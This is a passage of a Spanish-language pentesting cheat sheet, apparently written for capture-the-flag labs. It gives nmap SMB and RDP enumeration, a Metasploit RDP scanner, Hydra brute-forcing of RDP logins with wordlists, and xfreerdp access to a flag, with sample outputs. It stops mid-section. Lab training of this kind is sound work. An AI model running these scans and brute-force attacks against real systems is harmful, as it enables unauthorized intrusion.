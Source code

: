 **Enumerar servicios SMB:**
```bash
nmap -p445 --script=smb-enum-services --script-args smbusername=administrator,smbpassword=contraseñadefinitiva 192.168.1.11
```
_Ejemplo output:_
```
| smb-enum-services:
|   Service1: Running
|   Service2: Stopped
```

**Buscar scripts SMB:**  
https://nmap.org/nsedoc/scripts/

---

## RDP (Puerto 3389)

**Detectar RDP en la red:**
```bash
nmap -p3389 -T4 -n -sS 192.168.1.12
```
_Ejemplo output:_
```
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
```

**Verificar RDP con Metasploit:**
```bash
use auxiliary/scanner/rdp/rdp_scanner
set RHOSTS 192.168.1.12
set RPORT 3389
run
```
_Ejemplo output:_
```
[+] 192.168.1.12:3389 is running RDP
```

**Fuerza bruta RDP con Hydra:**
```bash
hydra -L diccionario.txt -P diccionario_password.txt rdp://192.168.1.12 -s 3389
```
_Ejemplo output:_
```
[3389][RDP] host: 192.168.1.12 login: admin password: 123456
```

**Acceder con xfreerdp:**
```bash
xfreerdp /u:usuario /p:password /v:192.168.1.12:3389
```

**Buscar la flag (generalmente en C:\):**
Comandos FreeRDP
Para conectar y redirigir unidades con FreeRDP, utiliza:
